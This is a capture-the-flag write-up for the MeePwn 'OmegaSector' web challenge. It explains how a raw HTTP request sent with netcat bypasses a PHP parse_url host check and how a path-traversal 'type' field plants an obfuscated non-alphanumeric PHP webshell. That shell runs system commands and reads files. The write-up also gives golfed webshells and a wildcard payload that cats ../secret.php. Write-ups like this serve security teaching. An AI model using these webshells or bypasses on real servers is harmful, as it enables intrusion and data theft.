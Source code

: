 # OmegaSector &ndash; write-up by @terjanq

## Task Description
>Wtf !? I just want to go to OmegaSector but there is weird authentication here, please help me  
>http://138.68.228.12/

## Part1
The very first part of the challenge is about getting the source code of the [index.php] file. In the source of the website, we could find the URL `http://138.68.228.12/?is_debug=1` which exactly does that. 

The next step is to bypass the following countermeasures to gain the full control of the `$whoareyou` variable.

```php
$remote=$_SERVER['REQUEST_URI']; 

if(strpos(urldecode($remote),'..')) 
    mapl_die(); 

if(!parse_url($remote, PHP_URL_HOST))
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI']; 

$whoareyou=parse_url($remote, PHP_URL_HOST); 
```

If we make any request by the web browser the `$_SERVER['REQUEST_URI']` variable will start with `/?` or `/index.php?` or `/index.php/` and so on. But there is always `slash` character at the beginning. So it's a tough task to get the custom hostname in here.  
At this stage, we can conclude that it is something with `raw HTTP requests`.  

Imagine the request below:
```
GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1
Host: 138.68.228.12
Connection: close

```

In this payload I managed to cheat the `apache2`, the `parse_url` and the `strpos(urldecode($remote),'..')` at one shoot!

`Apache2` will move into a not existing directory `..@alien.somewhere.meepwn.team` then will go one level down `../` back to the `root` folder. It is important that there are two `slashes` otherwise it won't work. I suppose it is because it just cleverly removes `..@alien.somewhere.meepwn.team/../` from the file path. 

My first try after I discovered that we could travel over directories like that was to create `..://alien.somewhere.meepwn.team/../..//index.php` request so the `parse_url` evaluates to:

```
Array
(
    [scheme] => ..
    [host] => alien.somewhere.meepwn.team
    [path] => /../..//index.php
)
```

but injecting the `:` in the `directory name` caused the `apache2` to crash. Perhaps it is due to another solution which I will link to at the end of the write-up.

The `$_SERVER['REQUEST_URI']` variable has obviously `..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40` value. 

Since `strpos(urldecode($remote),'..')` is `0` it evaluetes to `False` and thus the `mapl` won't `die`.

Also `parse_url($remote, PHP_URL_HOST)` won't return the hostname and the `http://127.0.0.1` will be prepended into `$remote` so the whole variable looks like `http://127.0.1..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40`. 

Now `parse_url` returns

```
Array
(
    [scheme] => http
    [host] => alien.somewhere.meepwn.team
    [user] => 127.0.0.1..
    [path] => /..//index.php
    [query] => alien=%40!%23%24%40!%40%40
)
```

Bingo! We have a complete control over the `$whoareyou` variable.

We pass a few *ifs* 
```
if($whoareyou==="alien.somewhere.meepwn.team")
    ⋮
    if($_GET['alien']==='@!#$@!@@')
        ⋮
        $_SESSION['auth']=hash('sha256', 'alien'.$salt); 
            exit(header( "Location: alien_sector.php" )); 

```

and get redirected to another stage. 

I used this `bash script` in order to get the `PHPSESSID` with `auth` set
```bash
echo -ne 'GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1\r\nHost: 138.68.228.12\r\nConnection: close\r\n\r\n' | nc 138.68.228.12 80
```
There are also similar *ifs* for `omega_sector.php` but actualy it had no any use in this challange. 

## Part2
After having the right `PHPSESSID` in the cookies we get the following form on the `alien_sector.php`:
```xml
<form action="alien_sector.php" method="POST">
<textarea class="shadow" id="main" name="message"></textarea>
<input type='text' name='type' value='alien' hidden />
<button type="submit" id="button"><div class="alien_language">Save</div></button>
</form>
```
If we send a message with `non alphanumeric characters` we see `Saved in alien_message/fc11ce87435398abd6a28dd622639988.alien`. In opposition on the `omega_sector` where we only can use `alphanumeric characters`. We can abuse the `type` attribute and we can send the request `type=/../super_secret_shell.php`.  
The serious restriction was that messages could be at least `40 characters` long.

At first, I thought that it is something like `race condition` that two scripts write into one file at the same time resulting in mixed content but it didn't work.

Then, inspired by some ideas found on the internet I have created the `reverse shell script` using only `non-alpha chars`: 
```php
<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```

And then after visiting the URL `http://138.68.228.12/alien_message/super_secret_shell.php?_=system&__=rgrep MeePwn /var/www/` we see the flag: **MeePwnCTF{__133-221-333-123-111___}**


## Alternative solution
This is the solution posted by `P4Team`.

```
GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0
Host: human.ludibrium.meepwn.team
```

This tricky payload takes an advantage of `default` in `virtual hosts` set to `/var/www/html` so any non-existent domain will point there. Also, it uses the alternative way of making the request using `GET FULL_URL` syntax. 

```php
<?=`/???/??? ../??????.??? > ===`
```

Even more tricky here using only 33 characters... It calls for shell via `` `...` `` syntax and then uses `shell wildcards` so `/???/???` will match `/bin/cat` and `../??????.???` matches `../secret.php`. Finally, it writes the result to `===` file. Amazing.




## Bonus
After the competition me and @Kittehs golfed a little and managed to get much shorter payloads!

- 21 bytes (full shell via `?_=rgrep /var/www MeePwn`)
```php
<?=`{${~"\xa0\xb8\xba\xab"}[_]}`;
```
- 19 bytes (`cat` all files from `../`)
```php
<?=`/???/??? ../*`;
```







[index.php]:<./index.php>
